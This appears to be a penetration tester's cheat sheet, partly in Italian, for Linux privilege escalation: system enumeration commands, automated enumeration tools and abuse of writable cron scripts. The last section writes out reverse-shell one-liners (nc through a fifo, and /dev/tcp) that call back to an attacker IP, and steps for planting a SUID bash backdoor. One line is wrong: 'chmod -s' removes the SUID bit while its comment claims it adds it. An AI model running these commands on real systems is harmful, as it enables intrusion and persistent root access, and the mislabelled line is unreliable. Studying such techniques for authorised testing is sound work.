 ```bash
# Check privilege on shadow file
ls -l /etc/shadow

cat /etc/issue

routel
ss -anp
cat /etc/iptables/rules.v4

dpkg -l
cat /etc/fstab
mount
lsblk
lsmod
/sbin/modinfo nome_di_uno_specifico_modulo
```

# Automated Enumeration

## unix-privesc-check

```bash
sudo apt install unix-privesc-check

unix-privesc-check standard > output.txt
```

## linpeas

- https://github.com/rebootuser/LinEnum
- https://github.com/peass-ng/PEASS-ng

# Insecure File Permissions

```bash
# search for overwritable files
find / -writable -type d 2>/dev/null
```

```bash
# control of some script that is executed either at reboot or every so many minutes
grep "CRON" /var/log/syslog
grep "CRON" /var/log/cron.log

# edit file to get reverse-shell
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc $MY_IP 1234 >/tmp/f" >> file_con_permessi_elevati.sh

# or
echo 'sh -i >& /dev/tcp/$KaliIP/4444 0>&1' >> file_con_permessi_elevati.sh

nc -lnvp 1234

# alternative 1 - modify the file to add the SUID bit to the /bin/bash file
echo "chmod -s /usr/bin/bash" >> file_con_permessi_elevati.sh

# alternative 2 - you could follow this path
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' >> file_con_permessi_elevati.sh
ls -la /tmp/bash
/tmp/bash -p

# if it is necessary to restart (you don't always have permissions)
```